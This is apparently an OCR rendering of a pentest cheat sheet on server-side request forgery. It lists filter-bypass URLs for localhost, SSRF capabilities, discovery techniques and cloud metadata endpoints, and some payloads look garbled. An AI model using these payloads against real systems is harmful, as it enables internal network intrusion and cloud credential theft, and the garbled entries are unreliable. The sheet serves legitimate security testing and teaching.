 إليك تنظيم النقاط بشكل نصي عادي ومنظم:

---

### **SSRF (Server-Side Request Forgery) Payloads & Techniques**

#### **1. SSRF Payloads to Bypass Firewall**
1. **Bypass SSRF with CIDR**:
   ```bash
   http://127.127.127.127
   ```
2. **Bypass using Rare Address**:
   ```bash
   http://127.1
   ```
3. **Bypass using Tricks Combination**:
   ```bash
   http://1.1.1.802.2.2.2#03.3.3.3/
   urllib:3.3.3.3
   ```
4. **Bypass against a Weak Parser**:
   ```bash
   http://127.1.1.180@127.2.2.2:80/
   ```
5. **Bypass Localhost with `[::]`**:
   ```bash
   http://[::]:80/
   http://0000::1:80/
   ```

#### **2. What SSRF Allows**
- **Access Services on Loopback Interface**:
  ```bash
  Access services running on the loopback interface.
  ```
- **Scan Internal Network**:
  ```bash
  Scan and interact with internal network services.
  ```
- **Read Local Files**:
  ```bash
  Use `file://` protocol handler to read local files.
  ```
- **Lateral Movement**:
  ```bash
  Move laterally within the internal environment.
  ```

#### **3. Finding SSRF**
- **External Resource Access**:
  ```bash
  Test if the application allows loading external resources (e.g., profile images).
  ```
- **Port Scanning**:
  ```bash
  Use Burp Suite Intruder to scan ports by manipulating URLs.
  ```
- **Internal IP Scanning**:
  ```bash
  Scan private IP ranges like 192.168.x.x to discover alive hosts.

#### **4. AWS Metadata Retrieval**
- **AWS Metadata Endpoints**:
  ```bash
  http://169.254.169.254/computeMetadata/v1
  http://169.254.169.254/latest/meta-data
  ```
